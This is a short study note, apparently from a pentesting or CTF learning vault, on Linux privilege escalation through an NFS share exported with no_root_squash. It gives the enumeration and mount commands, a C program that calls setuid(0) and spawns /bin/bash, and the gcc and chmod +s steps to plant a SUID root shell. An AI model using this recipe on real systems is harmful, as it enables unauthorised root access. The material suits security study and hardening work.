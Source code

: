 #LinuxPrivEsc 
Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system

NFS (Network File Sharing) configuration is kept in the `/etc/exports` file. This file is created during the NFS server installation and can usually be read by users

![[NFS.JPG]]
The critical part is the *no_root_squash* option. By default, NFS will change the root client user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

 >!Important:  for this privesc vector to work, the attacker must use the root user on their client machine

1. Start by enumerating mountable shares from the client machine on the server machine
		`showmount -e server_ip`
  2. We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable
		`mkdir /tmp/random_dir`
		`mount -o rw server_ip:/vulnerable_share /tmp/random_dir`
  3. Create a simple executable that will run /bin/bash on the target system. Assign this the SUID bits
```C
#include <unistd.h>
int main(){
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
``` 
		`gcc nfs.c -o nfs -w`
		`chmod +s nfs`
4. Since the nfs executable was created in the mounted share, it will be present in the target system. Just execute this will a low privilege user and obtain root owo